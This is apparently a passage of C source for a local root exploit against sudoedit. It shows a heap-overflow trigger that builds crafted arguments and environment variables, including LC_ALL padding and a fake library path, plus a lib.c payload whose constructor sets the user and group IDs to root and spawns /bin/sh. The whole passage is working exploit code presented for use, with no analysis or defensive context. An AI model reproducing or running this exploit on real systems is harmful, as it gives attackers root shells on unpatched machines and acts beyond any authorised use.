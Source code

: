 ```c
    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);
    
    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);
    
    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';
    
    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
        };
    
    char *s_envp[MAX_ENVP];
    int envp_pos = 0;
    
    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";
    
    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);
    
    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;
    
    printf("** pray for your rootshell.. **\n");
    
    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}

```

lib.c
```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static void __attribute__ ((constructor)) _init(void);

static void _init(void) {
    printf("[+] bl1ng bl1ng! We got it!\n");
    #ifndef BRUTE
    setuid(0); seteuid(0); setgid(0); setegid(0);
    static char *a_argv[] = { "sh", NULL };
    static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
    execv("/bin/sh", a_argv);
    #endif
}
```
